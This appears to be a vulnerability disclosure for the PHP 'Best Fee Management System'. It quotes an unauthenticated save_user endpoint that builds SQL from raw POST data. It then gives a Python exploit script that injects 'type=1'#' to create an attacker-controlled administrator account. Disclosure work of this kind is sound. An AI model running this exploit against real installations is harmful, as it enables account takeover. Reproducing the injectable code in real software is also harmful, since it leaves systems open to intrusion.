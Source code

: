 Best Fee Management System POC

This is the first report for the vulnerable.

[CVE search result](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Best+Fee+Management+System)
![image](https://github.com/movonow/demo/assets/39987032/77c9f56a-a37f-4850-8a69-5fd021128358)

---

## Vulnerability Type
CWE-264: Permissions, Privileges, and Access Controls

## Mitigation
There must be access control for the sentitive interfaces.

## Impact
Allows an attacker to gain full control of the system information.

## Proof of Concept
[Exploit Best-Fee-Management-System](https://youtu.be/9YG54KaF0N8)

## Software

[Best Fee Management System Homepage](https://www.sourcecodester.com/php/15357/best-fee-management-system-project-php-source-code.html)

### Vendor
[SourceCodester](https://www.sourcecodester.com/)

### source of disclosure
The vulnerable endpoint is: http://localhost/click_fees/ajax.php?action=save_user

The ajax.php just dispatch action:
```php

$action = $_GET['action'];
include 'admin_class.php';

$crud = new Action();
// .... other action ignored

if($action == 'save_user'){
	$save = $crud->save_user();
	if($save)
		echo $save;
}
```

There is no access check in `admin_class.php:save_user` function:
```php
Class Action {
    function save_user(){
        extract($_POST);
        $data = " name = '$name' ";
        $data .= ", username = '$username' ";
        if(!empty($password))
        $data .= ", password = '".md5($password)."' ";
        $data .= ", type = '$type' ";
        if($type == 1)
            $establishment_id = 0;
        $data .= ", establishment_id = '$establishment_id' ";
        $chk = $this->db->query("Select * from users where username = '$username' and id !='$id' ")->num_rows;
        if($chk > 0){
            return 2;
            exit;
        }
        if(empty($id)){
            $save = $this->db->query("INSERT INTO users set ".$data);
        }else{
            $save = $this->db->query("UPDATE users set ".$data." where id = ".$id);
        }
        if($save){
            return 1;
        }
    }
}
```

### Version 
The software is unversioned as of now (2023/7/10). Below is the tested version download link.

https://www.sourcecodester.com/sites/default/files/download/mayuri_k/click_fees_0.zip

## Exploit script
Setup: `pip install httpx`

```python
import httpx


response = httpx.post(
    url="http://localhost/click_fees/ajax.php?action=save_user",
    data={
        "name": "evil",
        "username": "evil@mars.io",
        "password": "evil",
        "type": "1'#", # SQL injection is necessary, beacuase of a server bug.
    },
    proxies="http://localhost:8080",
)

print(response.text)
```

## Steps To Reproduce
After execution of exploit script, attacker can login system with:
* username: evil@mars.io 
* password: evil
